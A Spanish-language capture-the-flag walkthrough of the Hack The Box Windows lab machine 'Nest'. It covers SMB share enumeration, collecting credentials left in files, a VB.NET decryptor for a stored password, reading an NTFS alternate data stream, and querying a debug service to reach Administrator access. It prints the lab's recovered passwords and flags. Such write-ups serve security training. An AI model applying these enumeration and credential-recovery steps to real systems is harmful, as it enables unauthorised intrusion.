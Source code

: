 
- Maquina: Windows
- Level: Easy
- IP: 10.10.10.178

## Herramientas a utilizar:

- nmap
- smbclient 
- smbget

```
nmap -sC -sV -o scan_nest.txt 10.10.10.178
```
Podemos verificar que esta maquina tiene SMB abierto.
|PORT|STATE SERVICE|VERSION|
|---|---|---|
|445/tcp| open | microsoft-ds?
>Host script results:
|_clock-skew: 1m32s
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required


El cual podemos enumerar con y verificar los share disponible
```
smbclient -L \\\\10.10.10.178 
```

Utilizaremos el share `data` por que puede ser accedido sin credenciales.
```
smbclient \\\\10.10.10.178\\Data
smb: \> recurse on 
smb: \> ls
smb: \> cd Shared\Templates\HR\
smb: \> cd \Shared\Templates\HR\> ls
```

Aqui encontraremo un archivo el cual descargaremos a nuestra maquina para posterior revision.
```
smb: \> mget "Welcom Email.txt"
```

Luego iremos a siguiente directorio:
```
smb: \> cd ../../Maintenance\
```
Tambien descargaremos `Maintenance Alerts.txt` para su posterior revision.
```
smb: \Shared\Maintenance\> mget "Maintenance Alerts.txt"
```

>Al abrir el archivo: Maintenance Alerts.txt encontraremos lo siguiente:
Username: TempUser
Password: welcome2019

Ahora tenemos las credenciales del usuario TempUser.
```
smbclient \\\\10.10.10.178\\Data -U TempUser
smb: \> recurse on
smb: \> ls
```

Ahora al listar veremos el directorio de TI por lo cual descargaremos todos directorio TI.
```
smbget -R smb://10.10.10.178/Data/ -U TempUser
```
Bucando entre todo el contenido descargado veremos dos archivo my peculiares
`RU_Config.xml`
`config.xml`
```
Data//IT/Configs/RU Scanner/RU_Config.xml
```
En el archivo `RU_Config.xml` veremos:
> <?xml version="1.0"?>
<ConfigFile xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema">
 <Port>389</Port>
 **<Username>c.smith</Username>**
 **<Password>fTEzAfYDoz1YzkqhQkH6GQFYKp1XY5hm7bjOP86yYxE=</Password>**
</ConfigFile>

En el archivo `config.xml` veremos:
```
Data//IT/Configs/NotepadPlusPlus/config.xml
```

><?xml version="1.0" encoding="Windows-1252" ?>
<NotepadPlus>
[SNIP]
 <History nbMaxFile="15" inSubMenu="no" customLength="-1">
 <File filename="C:\windows\System32\drivers\etc\hosts" />
 <File filename="\\HTB-NEST\Secure$\IT\Carl\Temp.txt" />
 <File filename="C:\Users\C.Smith\Desktop\todo.txt" />
 </History>
</NotepadPlus>

Aqui al parecer podemos alguien estaba accediendo al archivo en el recurso compartido **Secure$**
así como tambien al archivos en el escritorio del usuario de **C.Smith.**

Verificamos si podemos acceder **Secure$** como TempUser:

```
smbclient \\\\10.10.10.178\\Secure$ -U TempUser
```
Pero con el usuario TempUser no tenemos acceso pero si directamente en `IT\Carl\`
```
smbget -rR smb://10.10.10.178/Secure$/IT/Carl/ -U TempUser
```
En este directorio encontramos dos archivo `Module1.vb` and `Utils.vb`
>Que despues de muchas vuelta he caido encuenta que estos archivos los puedo utilizar para descryptar el password encontrado en el archivo `RU_config.xml`.

Pero para lograr hacerlo debo unificar ambos archivos y en 
```
https://dotnetfiddle.net
```
El contenido del archivo seria:
```
Imports System.Text
Imports System.Security.Cryptography
Public Class Utils
	Public Class ConfigFile
 Public Property Port As Integer
 Public Property Username As String
 Public Property Password As String

 Public Sub SaveToFile(Path As String)
 Using File As New System.IO.FileStream(Path, System.IO.FileMode.Create)
 Dim Writer As New System.Xml.Serialization.XmlSerializer(GetType(ConfigFile))
 Writer.Serialize(File, Me)
 End Using
 End Sub

 Public Shared Function LoadFromFile(ByVal FilePath As String) As ConfigFile
 Using File As New System.IO.FileStream(FilePath, System.IO.FileMode.Open)
 Dim Reader As New System.Xml.Serialization.XmlSerializer(GetType(ConfigFile))
 Return DirectCast(Reader.Deserialize(File), ConfigFile)
 End Using
 End Function
 
End Class
 Public Shared Function DecryptString(EncryptedString As String) As String
 If String.IsNullOrEmpty(EncryptedString) Then
 Return String.Empty
 Else
 Return Decrypt(EncryptedString, "N3st22", "88552299", 2, "464R5DFA5DL6LE28", 256)
 End If
 End Function

 Public Shared Function Decrypt(ByVal cipherText As String, _
 ByVal passPhrase As String, _
 ByVal saltValue As String, _
 ByVal passwordIterations As Integer, _
 ByVal initVector As String, _
 ByVal keySize As Integer) _
 As String
 Dim initVectorBytes As Byte()
 initVectorBytes = Encoding.ASCII.GetBytes(initVector)
 Dim saltValueBytes As Byte()
 saltValueBytes = Encoding.ASCII.GetBytes(saltValue)
 Dim cipherTextBytes As Byte()
 cipherTextBytes = System.Convert.FromBase64String(cipherText)
 Dim password As New Rfc2898DeriveBytes(passPhrase, _
 saltValueBytes, _
 passwordIterations)
 Dim keyBytes As Byte()
 keyBytes = password.GetBytes(CInt(keySize / 8))
 Dim symmetricKey As New AesCryptoServiceProvider
 symmetricKey.Mode = CipherMode.CBC
 Dim decryptor As ICryptoTransform
 decryptor = symmetricKey.CreateDecryptor(keyBytes, initVectorBytes)
 Dim memoryStream As System.IO.MemoryStream
 memoryStream = New System.IO.MemoryStream(cipherTextBytes)
 Dim cryptoStream As CryptoStream
 cryptoStream = New CryptoStream(memoryStream, _
 decryptor, _
 CryptoStreamMode.Read)
 Dim plainTextBytes As Byte()
 ReDim plainTextBytes(cipherTextBytes.Length)
 Dim decryptedByteCount As Integer
 decryptedByteCount = cryptoStream.Read(plainTextBytes, _
 0, _
 plainTextBytes.Length)
 memoryStream.Close()
 cryptoStream.Close()
 Dim plainText As String
 plainText = Encoding.ASCII.GetString(plainTextBytes, _
 0, _
 decryptedByteCount)
	System.Console.WriteLine(plainText)
	Return plainText
 End Function

Public Class SsoIntegration
 Public Property Username As String
 Public Property Password As String
End Class

 Sub Main()
 Dim test As New SsoIntegration With {.Username = "c.smith", .Password = Utils.DecryptString("fTEzAfYDoz1YzkqhQkH6GQFYKp1XY5hm7bjOP86yYxE=")}
 End Sub
End Class
```

Con este codigo podemos tener el password del usuario `C.Smith`
**password: xRxRxPANCAK3SxRxRx**

Ahora probaremos con el usuario y clave encontrado
```
smbclient \\\\10.10.10.178\\Users -U C.Smith
cd C.Smith
get user.txt
```
Listo no fue nada facil, pero ya tenemos la primera flag 👏

Ahora a por el root donde en el siguiente directorio
 `C.Smith\HQK Reporting` 
 Veremos dos archivos
 `Debug Mode Password.txt` y `Debug Mode Password.txt:Password`

```
allinfo "Debug Mode Password.txt"
```
No encontramos nada interesante por lo que veremos el otro archivo debug mode password.txt:password, este archivo en particular tiene un formato {File-Streams} que investigando me encontre que:
https://docs.microsoft.com/en-us/windows/win32/fileio/file-streams

>es una secuencia de bytes. En el sistema de archivos NTFS, las secuencias contienen los datos que se escriben en un archivo y que brindan más información sobre un archivo que los atributos y propiedades. Por ejemplo, puede crear una secuencia que contenga palabras clave de búsqueda o la identidad de la cuenta de usuario que crea un archivo.

```
more "Debug Mode Password.txt:Password"
```
Y en este tenemos un password:
**PASSWORD DEBUG: WBQ201953D8w**

Hacemos un telnet por el puerto 4386
```
telnet 10.10.10.178 4386
DEBUG WBQ201953D8w 
setdir ..
setdir LDAP
showquery 2
Domain=nest.local
Port=389
BaseOu=OU=WBQ Users,OU=Production,DC=nest,DC=local
User=Administrator
Password=yyEq0Uvvhq2uQOcWG8peLoeRQehqip/fKdeG/kjEVb4=
```
Aqui encontramos un password y utilizaremos la siguiente web en la cual encontramos un codigo que copiaremos.
https://pastebin.com/RfZhBcq9


Luego debemos ir a:
https://dotnetfiddle.net/Z9MZYl 

Copiamos y pegamos debemo parametrizar lo siguiente
Language: C#
Compiler: .net 4.7.2

Ejecutamos y el resultado sera:
The magical rootdance key is:
XtH4nkS4Pl4y1nGX

```
smbclient \\\\10.10.10.178\\c$ -U Administrator
cd \Users\Administrator\Desktop\
more root.txt
```

